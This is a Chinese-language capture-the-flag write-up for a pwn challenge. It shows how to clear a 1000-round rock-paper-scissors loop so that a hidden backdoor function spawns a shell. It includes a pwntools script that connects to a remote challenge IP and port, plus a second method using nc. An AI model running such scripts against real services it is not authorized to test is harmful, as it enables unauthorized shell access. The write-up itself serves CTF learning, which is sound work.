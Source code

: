 # **石头剪刀布：**

拿到可执行文件，拖到IDA里看源码：

首先是一个1000次的for循环

![image-20240520175408557](/石头剪刀布.assets/image-20240520181243938.png)

我们可以发现当循环1000次执行后，才会执行我们的后门函数：

![image-20240520175547344](/石头剪刀布.assets/image-20240520175547344.png)

所以现在关键就是如何让这1000次的循环运行完：

到这儿有两种解法：

**第一种**是基于pwntools写一个脚本，接受程序的输出，再向程序输入，主要考察对pwn工具pwntools的使用

脚本如下：（这个脚本是按照石头剪刀布的玩法进行相应的接收和输入，但其实石头剪刀的输赢是没关系的，只要循环1000次就可以了）

```
from pwn import *

p = remote("81.69.243.226", 60579)

# p = process("./rock_paper_scissors")

i = 0

# gdb.attach(p)

for i in range(0,1000):
    p.recvuntil("Computer: \n", drop=True)
    p.recvuntil("->", drop=True)
    str = p.recvline().strip() 
    print(str)
    if str == b'Rock':
        p.recvline(b'You')
        p.sendline("p")
    elif str == b'Scissor':
        p.recvline(b'You')
        p.sendline("r")
    elif str == b'Paper':
        p.recvline(b'You')
        p.sendline("s")
p.interactive()
```

![image-20240520181243938](Pwn/石头剪刀布.assets/image-20240520181243938.png)

这里运行的时间会久一点，毕竟有1000次，可以看到我们不仅成功拿到shell，而且也赢了1000次的石头剪刀布✌

![image-20240520181350975](Pwn/石头剪刀布.assets/image-20240520181350975.png)

**第二种：**就是直接nc连接，直接输入1000个字符，r,s,p都可以：

![image-20240520181542062](Pwn/石头剪刀布.assets/image-20240520181542062.png)

![image-20240520181530551](Pwn/石头剪刀布.assets/image-20240520181530551.png)

尽管输了，但还是拿到shell啦

![image-20240520180907888](Pwn/石头剪刀布.assets/image-20240520180907888.png)

